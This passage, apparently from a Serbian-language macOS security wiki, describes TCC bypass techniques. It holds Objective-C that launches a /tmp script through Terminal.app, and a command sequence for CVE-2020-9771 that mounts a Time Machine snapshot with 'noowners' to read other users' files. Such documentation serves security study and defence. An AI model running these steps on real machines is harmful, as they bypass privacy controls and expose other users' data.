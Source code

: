 Aplikacija bi mogla napisati terminalni skriptu na lokaciji poput /tmp i pokrenuti je sa komandom poput:

```objectivec
// Write plist in /tmp/tcc.terminal
[...]
NSTask *task = [[NSTask alloc] init];
NSString * exploit_location = @"/tmp/tcc.terminal";
task.launchPath = @"/usr/bin/open";
task.arguments = @[@"-a", @"/System/Applications/Utilities/Terminal.app",
exploit_location]; task.standardOutput = pipe;
[task launch];
```

## Montiranjem

### CVE-2020-9771 - TCC zaobilazak i eskalacija privilegija putem montiranja `mount_apfs`

**Bilo koji korisnik** (čak i neprivilegovani) može kreirati i montirati snapshot vremenske mašine i **pristupiti SVIM datotekama** tog snimka.\
Jedino što je potrebno je da aplikacija koja se koristi (kao što je `Terminal`) ima **Pristup celom disku** (Full Disk Access - FDA) (`kTCCServiceSystemPolicyAllfiles`) koji mora biti odobren od strane administratora.

{% code overflow="wrap" %}
```bash
# Create snapshot
tmutil localsnapshot

# List snapshots
tmutil listlocalsnapshots /
Snapshots for disk /:
com.apple.TimeMachine.2023-05-29-001751.local

# Generate folder to mount it
cd /tmp # I didn it from this folder
mkdir /tmp/snap

# Mount it, "noowners" will mount the folder so the current user can access everything
/sbin/mount_apfs -o noowners -s com.apple.TimeMachine.2023-05-29-001751.local /System/Volumes/Data /tmp/snap

# Access it
ls /tmp/snap/Users/admin_user # This will work
```
{% endcode %}

Detaljnije objašnjenje možete [**pronaći u originalnom izveštaju**](https://theevilbit.github.io/posts/cve\_2020\_9771/)**.**

### CVE-2021-1784 & CVE-2021-30808 - Montiranje preko TCC fajla
